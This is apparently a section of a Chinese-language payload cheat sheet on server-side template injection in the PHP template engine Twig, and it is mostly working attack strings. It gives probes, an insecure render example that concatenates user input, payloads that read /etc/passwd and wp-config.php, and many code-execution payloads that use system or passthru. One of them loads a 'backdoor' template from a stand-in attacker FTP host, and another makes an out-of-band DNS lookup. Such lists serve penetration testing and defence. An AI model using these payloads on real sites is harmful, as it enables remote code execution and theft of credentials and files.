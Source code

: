 
## Twig

[官方网站](https://twig.symfony.com/)

> Twig 是一个现代的PHP模板引擎。

### Twig - 基本注入

```python
{{7*7}}
{{7*'7'}} 将导致 49
{{dump(app)}}
{{dump(_context)}}
{{app.request.server.all|join(',')}}
```

### Twig - 模板格式

```python
$output = $twig->render(
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig->render(
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Twig - 随意读取文件

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```

### Twig - 代码执行

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
{{['nslookup oastify.com']|filter('system')}}
```

